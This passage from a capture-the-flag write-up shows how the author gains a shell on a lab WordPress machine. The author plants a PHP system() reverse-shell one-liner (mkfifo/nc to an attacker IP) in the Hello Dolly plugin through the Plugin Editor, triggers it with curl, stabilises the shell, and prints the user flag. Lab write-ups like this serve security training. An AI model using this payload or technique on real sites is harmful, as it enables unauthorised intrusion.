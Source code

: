 <p>

- clicked <code>Plugins</code> > <code>Installed Plugins</code><br>
- identified that <code>Hello Dolly</code> is <code>active</code></p>

![image](https://github.com/user-attachments/assets/700301fe-d239-4a3f-9e28-737874a56aaf)


<p>clicked <code>Plugins</code> > <code>Plugin Editor</code> > <code>I understand</code></p>

![image](https://github.com/user-attachments/assets/8c705f67-8488-4721-879a-e5bf91d7f15c)

```bash
:~/Jack# nc -nlvp 4444
```

```bash
<?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.17.229 4444 >/tmp/f")?>
```

<p>- clicked <code>Update</code></p>

![image](https://github.com/user-attachments/assets/198099a7-68b1-4514-b6c2-b503dc5edf20)

<p>- used <code>curl</code></p>

```bash
:~/Jack# curl http://jack.thm/wp-content/plugins/hello.php
```

<p>- got the shell</p>

```bash
:~/Jack# nc -nlvp 4444
Listening on 0.0.0.0 4444
Connection received on AttackIP 60638
/bin/sh: 0: can't access tty; job control turned off
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@jack:/var/www/html/wp-content/plugins$ ^Z
[1]+  Stopped                 nc -nlvp 4444
:~/Jack# stty raw -echo; fg
nc -nlvp 4444

www-data@jack:/var/www/html/wp-content/plugins$ 
```

<p>user.txt</p>

```bash
www-data@jack:/var/www/html/wp-content/plugins$ cat /home/jack/user.txt
0052f7829e48752f2e7bf50f1231548a
www-data@jack:/var/www/html/wp-content/plugins$ 
```

<br>

<h3>/var/wwww/html</h3>
